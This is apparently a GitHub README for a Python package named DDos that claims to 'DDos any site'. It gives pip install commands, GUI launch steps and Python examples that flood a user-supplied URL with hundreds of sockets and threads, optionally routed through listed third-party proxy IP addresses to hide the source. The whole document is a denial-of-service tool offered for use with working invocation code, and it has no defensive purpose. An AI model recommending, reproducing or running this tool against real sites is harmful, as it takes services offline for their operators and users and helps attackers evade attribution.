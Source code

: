 # DDos

DDos any site using python

## Install

### From Pypi

`pip3 install DDos==1.0.1` (You should really use this version)

### From GitHub

`pip3 install git+https://github.com/donno2048/DDos`

## Usage

### GUI

To use it just run:

```sh
DDos
```

or

```sh
ddos
```

in the terminal to launch the GUI (tkinter is a requirement for the GUI so use: `sudo apt-get update && sudo apt-get install python3-tk -y` on linux and on Windows it's already installed)

### TUI

To use the text-based user interface see this python example:

```py
from DDos import checkUrl, DDos # import the needed functions
while True:
    url = input("Give me a URL: ") # get a url from the user
    if checkUrl(url): break # if it's formatted correctly exit the loop
    else: print("This URL isn't formatted correctly, try again") # else, go back
DDos(url, sockets = 400, threads = 10, use_proxies = True) # ddos this url with 400 sockets and 10 threads and use the built-it proxies
```

or simply:

```py
from DDos import DDos
DDos(input("Give me a URL: ")) # if the url isn't formatted correctly it will have an assertion error, use 500 sockets and 10 threads, no proxies will be used
```

The DDos function has also a `custom_proxies` optional variable and there is a `checkProxy` function, you can use them like so:

```py
from DDos import DDos, checkProxy
assert checkProxy("109.237.91.155:8080")
assert checkProxy("178.128.37.176:80")
DDos(input("Give me a URL: "), use_proxies = True, custom_proxies = ["109.237.91.155:8080", "178.128.37.176:80"])
```

If you give an invalid proxy you will get an assertion error.
